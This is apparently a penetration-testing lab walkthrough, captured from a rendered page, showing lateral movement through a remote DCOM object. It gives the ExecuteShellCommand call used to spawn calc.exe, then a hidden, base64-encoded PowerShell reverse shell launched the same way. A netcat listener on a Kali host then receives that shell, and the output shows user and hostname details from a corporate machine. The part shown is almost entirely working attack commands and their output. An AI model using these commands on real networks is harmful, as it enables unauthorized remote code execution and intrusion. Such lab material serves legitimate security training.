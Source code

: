 Execute command (spawn calc.exe) on remote DCOM object 
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

Verify calc.exe is running 
```
C:\Users\Administrator>tasklist | findstr "calc"
win32calc.exe  
```

Instead of spawning calc.exe... spawn base64 encoded reverse shell
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

Verify incoming reverse shell on kali's nc listener
```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 50778

PS C:\Windows\system32> whoami
corp\jen

PS C:\Windows\system32> hostname
FILES04
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname